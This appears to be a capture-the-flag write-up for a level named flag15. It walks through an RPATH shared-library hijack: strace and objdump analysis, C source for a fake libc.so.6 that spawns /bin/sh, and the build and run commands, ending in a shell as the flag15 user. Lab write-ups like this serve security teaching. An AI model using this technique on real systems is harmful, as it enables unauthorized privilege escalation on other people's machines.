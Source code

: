 
---
### 📜 Challenge Description

> A binary named `flag15` located in `/home/flag15/` checks for libraries in a custom path. The challenge hints at **shared library hijacking** through `RPATH` and `dlopen` behavior.

**Login:** `level15 : level15`  
**Goal:** Gain shell execution as `flag15` and retrieve the flag.

---

### 🔍 Initial Analysis

#### 🛠️ Step 1: Use `strace` to Monitor Library Loading

```bash
strace /home/flag15/flag15
```

The output reveals that the binary attempts to load shared libraries from:

```
/var/tmp/flag15/libc.so.6
```

#### 🔎 Step 2: Confirm RPATH

```bash
objdump -p /home/flag15/flag15 | grep RPATH
```

✅ Output:

```
RPATH                /var/tmp/flag15
```

This confirms the binary searches `/var/tmp/flag15` **before** the standard library paths. We can exploit this by creating a **malicious `libc.so.6`**.

---

### ⚔️ Exploitation Strategy

Hijack the library loading mechanism to execute arbitrary code (in this case, spawn a shell) by injecting a fake `libc.so.6`.

---

### 🛠️ Step-by-Step Exploit

#### 🧱 Step 1: Create the Malicious Library

```c
// dummy_libc.c
#include <stdlib.h>

int __libc_start_main(int (*main)(int, char **, char **),
                      int argc, char **ubp_av,
                      void (*init)(void), void (*fini)(void),
                      void (*rtld_fini)(void), void *stack_end) {
    system("/bin/sh");
    return 0;
}
```

#### 📜 Step 2: Create a Version Script

```ld
// version.ld
GLIBC_2.0 {
  global:
    __libc_start_main;
  local:
    *;
};
```

#### 🧪 Step 3: Compile the Fake `libc.so.6`

```bash
mkdir /var/tmp/flag15
cd /var/tmp/flag15

gcc -shared -static-libgcc -fPIC \
    -Wl,--version-script=version.ld,-Bstatic \
    dummy_libc.c -o libc.so.6
```

> This creates a minimal but effective fake `libc.so.6` that immediately spawns a shell upon loading.

---

### 🚀 Step 4: Run the Vulnerable Binary

```bash
/home/flag15/flag15
```

✅ A shell is spawned.

---

### 🏁 Step 5: Capture the Flag

```bash
id
# uid=1016(level15) gid=1016(level15) euid=984(flag15)

getflag
# You have successfully executed getflag on a target account
```

---

### 🧹 Cleanup

As per good practice, remove the malicious directory:

```bash
rm -rf /var/tmp/flag15
```

---

### 📘 Conclusion

This level demonstrates a **classic RPATH/shared library hijack** vulnerability. By placing a malicious `libc.so.6` in a directory listed in the binary’s `RPATH`, you gain code execution as the binary's user.

🔐 **Security Takeaway:**

> Avoid hardcoding unsafe `RPATH` values. Prefer `RUNPATH` or no custom paths at all. Restrict permissions and always validate and verify shared object integrity in sensitive binaries.

---
